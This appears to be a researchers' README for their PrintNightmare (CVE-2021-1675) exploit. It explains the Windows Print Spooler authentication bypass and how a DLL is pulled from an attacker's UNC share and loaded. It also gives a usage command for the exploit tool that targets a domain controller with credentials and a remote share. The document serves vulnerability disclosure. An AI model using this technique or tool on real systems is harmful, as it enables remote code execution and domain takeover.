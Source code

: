 ## PrintNightmare (CVE-2021-1675): Remote code execution in Windows Spooler Service

 

Ten years ago, an escalation of privilege bug in Windows Printer Spooler was used in Stuxnet, which is a notorious worm that destroyed the nuclear enrichment centrifuges of Iran and infected more than 45000 networks. In the past ten years, spooler still has an endless stream of vulnerabilities disclosed, some of which are not known to the world, however, they are hidden bombs that could lead to disasters. Therefore, we have focused on spooler over the past months and reaped fruitfully.

 

The beginning of the research is PrintDemon from which we get inspiration. After digging into this bug deeper, we found a way to bypass the patch of MS. But just after MS released the new version, we immediately found a new way to exploit it again. After the story of PrintDemon, we realized that spooler is still a good attack surface, although security researchers have hunted for bugs in spooler for more than ten years. We started to explore the inner working of Printer Spooler and discovered some 0-day Bugs in it. Some of them are more powerful than PrintDemon and easier to exploit, and the others can be triggered from remote which could lead to remote code execution.

 

CVE-2021-1675 is a remote code execution in Windows Print Spooler. According to MSRC security bullion, this vulnerability is reported by Zhipeng Huo, Piotr Madej and Zhang Yunhai. 

We also found this bug before and hope to keep it secret to participate Tianfu Cup ☹. As there are some people already published exploit video of CVE-2021-1675. Here we publish our writeup and exploit for CVE-2021-1675. 

 

For more RCE and LPE vulnerabilities in Windows Spooler, please stay tuned and wait our Blackhat talks ‘Diving Into Spooler: Discovering LPE and RCE Vulnerabilities in Windows Printer‘. 

 

 

## RpcAddPrinterDriver

Adding a Printer Driver to a Server (RpcAddPrinterDriver)

Let check the MS-RPRN: Print System Remote Protocol about the RpcAddPrinterDriver call.

To add or update a printer driver ("OEM Printer Driver") to a print server ("CORPSERV"), a client ("TESTCLT") performs the following steps.

1. The client can use the RPC call RpcAddPrinterDriver to add a driver to the print server.

2. The client ensures that the files for the printer driver are in a location accessible to the server. For that purpose, the client can share a local directory containing the files, or use [MS-SMB] to place the files into a directory on the server

3. The client then allocates and populates a DRIVER_INFO_2 structure as follows:

   pName = L"OEM Printer Driver";

   pEnvironment = L"Windows NT x86"; /* Environment the driver is compatible with */

   pDriverPath = "\\\\CORPSERV\\C$\\DRIVERSTAGING\\OEMDRV.DLL";315 / 415

   [MS-RPRN] - v20200826

   Print System Remote Protocol

   Copyright © 2020 Microsoft Corporation

   Release: August 26, 2020

   pDataFile = "\\\\CORPSERV\\C$\\DRIVERSTAGING\\OEMDATA.DLL";

   pConfigFile = "\\\\CORPSERV\\C$\\DRIVERSTAGING\\OEMUI.DLL";

4. The client allocates a DRIVER_CONTAINER driverContainer structure and initializes it to contain the DRIVER_INFO_2 structure.

5. The client calls RpcAddPrinterDriver.

   RpcAddPrinterDriver( L"\\\\CORPSERV", &driverContainer );

 

## CVE-2021-1675 Analysis

Clearly, if an attacker can bypass the authentication of RpcAddPrinterDriver. He could install an malicious driver in the print server. In msdn, the client need SeLoadDriverPrivilege to call the RPC. However, this isn’t true. Let check the authentication logical here:

![img](./img/rootcause.png)

ValidateObjectAccess is a normal security check for Spooler Service. But in line 19 and 20, argument a4 is user controllable. So, a normal user can bypass the security check and add an driver. If you are in the domain, a normal domain user can connect to the Spooler service in the DC and install a driver into the DC. Then he can fully control the Domain.

 

## Exploit

But the real attack is not that simple. To exploit the authentication bypass bug, we need to understand what the Spooler service will do when you calling RpcAddPrinterDriver. Suppose you supply there path to the service

​	pConfigFile = A.dll

​	pDataFile =   B.dll   \\attackerip\\Evil.dll

​	pDriverPath = C.dll

 

It will copy A,B and C into folder C:\Windows\System32\spool\drivers\x64\3\new. And then it will copy them to C:\Windows\System32\spool\drivers\x64\3, and load C:\Windows\System32\spool\drivers\x64\3\A.dll and C:\Windows\System32\spool\drivers\x64\3\C.dll into the Spooler service. However, in the latest version, Spooler will check to make sure that A and C are local files, so we cannot copy a remote file A,C into victim system and load it directly. But as B can be an remote UNC path, so we can set pDataFile as an UNC path (an evildll). This will make our evildll Evil.dll be copied from attacker's server to victim's system and save into C:\Windows\System32\spool\drivers\x64\3\ Evil.dll. Then call RpcAddPrinterDriver again, to set pConfigFile to be C:\Windows\System32\spool\drivers\x64\3\ Evil.dll. It will load our evil dll. Unfortunately, it does not work. Because if you set A, B, C in the folder C:\Windows\System32\spool\drivers\x64\3\. There will be an access conflict in file copy. To bypass this, we need to use the backup feature of driver upgrade. If we upgrade some driver, the old version will be backup into C:\Windows\System32\spool\drivers\x64\3\old\1\ folder. Then we can bypass the access conflict and success inject our evil.dll into spooler service. 

Successfully load our dll:

 ## Usage



```
.\PrintNightmare.exe dc_ip path_to_exp user_name password

Example:
.\PrintNightmare.exe 192.168.5.129 \\192.168.5.197\test\MyExploit.dll user2 test123##
```

 ![img](./img/Result.png)

 ![img](./img/logfile.png)
Tested on windows sever 2019 1809 17763.1518




## Impact

This vulnerability can be used to achieve LPE and RCE. As for the RCE part, you need a user to authenticated on the Spooler service. However, this is still critical in Domain environment. Because normally DC will have Spooler service enable, a compromised domain user may use this vulnerability to control the DC.

 

Here are more hidden bombs in Spooler, which is not public known. We will share more RCE and LPE vulnerabilities in Windows Spooler, please stay tuned and wait our Blackhat talks ‘Diving Into Spooler: Discovering LPE and RCE Vulnerabilities in Windows Printer‘. 

 

## Credit

Zhiniang Peng (@edwardzpeng) & Xuefeng Li (@lxf02942370)
